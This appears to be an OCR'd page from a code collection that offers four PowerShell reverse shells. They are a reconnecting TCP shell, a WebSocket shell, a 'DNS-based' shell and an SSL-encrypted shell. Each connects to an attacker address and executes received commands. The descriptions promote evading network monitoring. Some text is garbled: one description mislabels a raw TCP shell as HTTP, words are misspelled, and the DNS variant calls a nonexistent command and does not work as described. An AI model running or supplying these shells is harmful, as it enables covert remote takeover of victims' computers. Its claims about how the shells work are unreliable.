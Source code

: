 This script creates a more resilient reverse shell that attempts to reconnect every 10 seconds if the connection is lost. It uses HTTP for communication.

```powershell
while($true) { try { $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port);
$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close() } catch { Start-Sleep -Seconds 10 } }
```

### WebSocket-Based PowerShell Reverse Shell

Establishes a reverse shell using WebSockets, which can be more stealthy and bypass some network monitoring tools.

```powershell
$ClientWebSocket = New-Object System.Net.WebSockets.ClientWebSocket; $uri = New-Object
System.Uri("ws://attacker_ip:attacker_port"); $ClientWebSocket.ConnectAsync($uri, $null).Result;
$buffer = New-Object Byte[] 1024; while ($ClientWebSocket.State -eq 'Open') { $received =
$ClientWebSocket.ReceiveAsync($buffer, $null).Result; $command =
[System.Text.Encoding]::ASCII.GetString($buffer, 0, $received.Count); $output = iex $command 2>&1 |
Out-String; $bytesToSend = [System.Text.Encoding]::ASCII.GetBytes($output);
$ClientWebSocket.SendAsync($bytesToSend, 'Binary', $true, $null).Wait() }
```

### DNS-Based PowerShell Reverse Shell

This script uses DNS requests to exltrate data, making the reverse shell trac appear as DNS queries, which can be less suspicious and harder to detect.

```powershell
function Invoke-DNSReverseShell { param([string]$attacker_ip, [int]$attacker_port) $client = New-Object
System.Net.Sockets.TCPClient($attacker_ip, $attacker_port); $stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 |
Out-String ); $encodedSendback =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($sendback)); nslookupcode
$encodedSendback $attacker_ip; $stream.Flush()}; $client.Close() }
```

### Encrypted PowerShell Reverse Shell

Creates an encrypted reverse shell using SSL to secure the communication channel, making it more difficult for network security measures to inspect the traffic.

```powershell
$ErrorActionPreference = 'SilentlyContinue'; $client = New-Object
System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); $sslStream =
New-Object System.Net.Security.SslStream($stream, $false, {$true} );
$sslStream.AuthenticateAsClient('attacker_ip'); $writer = New-Object
System.IO.StreamWriter($sslStream); $reader = New-Object System.IO.StreamReader($sslStream);
while($true) { $writer.WriteLine('PS ' + (pwd).Path + '> '); $writer.Flush(); $command =
$reader.ReadLine(); if($command -eq 'exit') { break; }; $output = iex $command 2>&1 | Out-String;
$writer.WriteLine($output); $writer.Flush() }; $client.Close()
```
